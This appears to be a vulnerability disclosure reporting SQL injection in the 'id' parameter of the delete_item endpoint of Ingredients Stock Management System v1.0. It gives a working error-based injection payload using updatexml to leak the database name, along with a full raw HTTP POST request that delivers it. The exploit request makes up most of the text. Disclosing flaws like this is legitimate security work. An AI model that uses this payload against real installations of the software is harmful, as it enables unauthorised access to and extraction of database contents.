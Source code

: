 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/classes/Master.php?f=delete_item

Vulnerability location: /isms/classes/Master.php?f=delete_item, id

db_name = isms_db;

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /isms/classes/Master.php?f=delete_item HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179383935-f45005d9-d580-43ec-8375-4b024591a4c8.png)



